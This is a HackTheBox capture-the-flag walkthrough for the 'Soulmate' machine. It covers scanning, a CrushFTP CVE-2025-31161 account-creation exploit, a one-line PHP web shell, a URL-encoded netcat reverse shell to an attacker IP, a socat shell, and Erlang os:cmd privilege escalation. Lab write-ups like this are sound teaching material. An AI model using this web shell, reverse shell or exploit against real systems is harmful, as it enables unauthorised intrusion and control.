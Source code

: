 ![Alt text for your image](images/image0.png)

# Soulmate HTB Walkthrough

This write-up documents the full exploitation process for the soulmate.htb machine, including reconnaissance, enumeration, exploitation, privilege escalation, and final root access.

-----

## 🔍 Reconnaissance

First, perform a full TCP port scan with Nmap to identify open services:

```bash
nmap -p- -Pn <target> -v -T5 --min-rate 1000 --max-rtt-timeout 1000ms --max-retries 5 -oN nmap_ports.txt && sleep 5 && \
nmap -Pn <target> -sC -sV -v -oN nmap_sVsC.txt && sleep 5 && \
nmap -T5 -Pn <target> -v --script vuln -oN nmap_vuln.txt
```

![Alt text for your image](images/image4.png)

-----

## 🌐 Web Enumeration

### Directory brute forcing

```bash
ffuf -w /opt/useful/seclists/Discovery/Web-Content/raft-medium-directories.txt:FUZZ -u http://soulmate.htb/FUZZ -s
```


![Alt text for your image](images/image14.png)

### Subdomain brute forcing

```bash
ffuf -w /opt/useful/seclists/Discovery/DNS/subdomains-top1million-5000.txt:FUZZ -u http://10.129.84.47/ -H 'Host: FUZZ.soulmate.htb' -fs 154
```

![Alt text for your image](images/image20.png)

-----

## 📂 FTP Service (CrushFTP)

The domain `ftp.soulmate.htb` resolves to a CrushFTP web interface.


![Alt text for your image](images/image19.png)

The version string found:

```
11.W.657-2025_03_08_07_52
```


![Alt text for your image](images/image18.png)

This version is vulnerable to CVE-2025-31161:

[GitHub PoC – CVE-2025-31161](https://www.google.com/search?q=https://github.com/user/repo)

### Exploit usage:

```bash
python cve-2025-31161.py --target_host ftp.soulmate.htb --port 80 --target_user root --new_user test --password admin123
```

![Alt text for your image](images/image6.png)


After exploitation, we can access with our new credentials:

`http://ftp.soulmate.htb/WebInterface/UserManager/index.html`


![Alt text for your image](images/image17.png)

Then we find the users and see that we can change their password, after checking i found that ben has access to the folder where the soulmate app is running so we exploit and login to that account

![Alt text for your image](images/image8.png)

![Alt text for your image](images/image5.png)


-----

-----

## ⚡ Web Shell Access

Upload a PHP webshell via ben's account to the webProd where we see the login.php, register.php:

```php
<?=`$_GET[0]`?>

```

![Alt text for your image](images/image17.png)

Then from the soulmate.htb webapp we see that we can rce

![Alt text for your image](images/image7.png)

Trigger a reverse shell:

```
http://soulmate.htb/shell.php?0=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff|sh%20-i%202%3E%261|nc%2010.10.15.30%204444%20%3E%2Ftmp%2Ff
```

![Alt text for your image](images/image15.png)


-----

## 🔧 Shell Stabilization

```bash
chmod +x socatx64.bin
./socatx64.bin exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.16.14:4444
```

-----

## 📉 Deadend Enumeration

Some enumeration paths don’t yield privilege escalation.

We checked the config file where there was a hardcoded admin password

```
user: admin
pass: Crush4dmin990
```

![Alt text for your image](images/image21.png)

![Alt text for your image](images/image13.png)

But after logging in we didn't find anything useful and any path to escalate

![Alt text for your image](images/image12.png)



-----

## 📜 Privesc search with linpeas

![Alt text for your image](images/image22.png)

An interesting and process we found:

```bash
cat /usr/local/lib/erlang_login/start.escript
```
![Alt text for your image](images/image2.png)

So we took a look at the binary running:

![Alt text for your image](images/image11.png)


![Alt text for your image](images/image23.png)


-----

## 🔑 Credential Discovery

So we found the credentials and then we will exploit

```
user: ben
pass: HouseH0ldings998
```

We switch user successfully:

```bash
su ben
Password: HouseH0ldings998
```

## 🏁 User Flag

The user flag is captured.

![Alt text for your image](images/image1.png)

-----

## 🧪 Root Exploitation with Erlang

Then based on the script we ssh into the  localhost 2222 port, based on what the script was doing

![Alt text for your image](images/image3.png)

We then discover a shell, after research i found that it is an erlang shelll and also learnt the syntax to execute on the machine

By experimenting with Erlang command execution:

![Alt text for your image](images/image9.png)

Final command for root flag:

```erlang
os:cmd("cat /root/root.txt").
```

-----

## ✅ Conclusion

We gained access through:

1.  **Enumeration** → Identified CrushFTP.
2.  **Exploitation** → CVE-2025-31161 for account creation.
3.  **Shell** → Uploaded PHP webshell.
4.  **Privilege Escalation** → Erlang `os:cmd/1` execution.
5.  Captured both `user.txt` and `root.txt`.
